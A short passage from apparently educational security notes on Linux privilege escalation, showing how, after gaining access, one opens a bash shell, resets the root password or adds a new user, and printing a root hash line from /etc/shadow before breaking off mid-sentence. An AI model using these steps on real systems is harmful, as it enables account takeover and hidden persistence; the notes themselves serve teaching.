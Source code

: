 <figure><img src="../../../../../.gitbook/assets/image (19).png" alt=""><figcaption><p><a href="https://images.squarespace-cdn.com/content/5a01100f692ebe0459a1859f/1603347414982-SZ68WZFHL6N9LG7S5HMF/BSY+Security+Class+Diagrams+-+_etc_passwd+(L).jpg?format=1500w&#x26;content-type=image%2Fjpeg">https://images.squarespace-cdn.com/content/5a01100f692ebe0459a1859f/1603347414982-SZ68WZFHL6N9LG7S5HMF/BSY+Security+Class+Diagrams+-+_etc_passwd+%28L%29.jpg?format=1500w&#x26;content-type=image%2Fjpeg</a></p></figcaption></figure>

After it, we can launch shell /bin/bash and f.e. change root psw:

```bash
shell
/bin/bash -i
passwd root
Enter new UNIX password: new_psw
Retype new UNIX password: new_psw
passed: password updated successfully
```

or we can add a new user:

```bash
useradd -m new_usr -s /bin/bash #and add psw
```

Analyzing root hash of /etc/shadow, file we can see that&#x20;

```
root:$y$j9T$hl8nD2cY/WEF55crjicKw1$7/bAEYLkcpy9sZJ1rZMYX9bFQLJj88qKomFAPB2QDEC:19566:0:99999:7:::
```
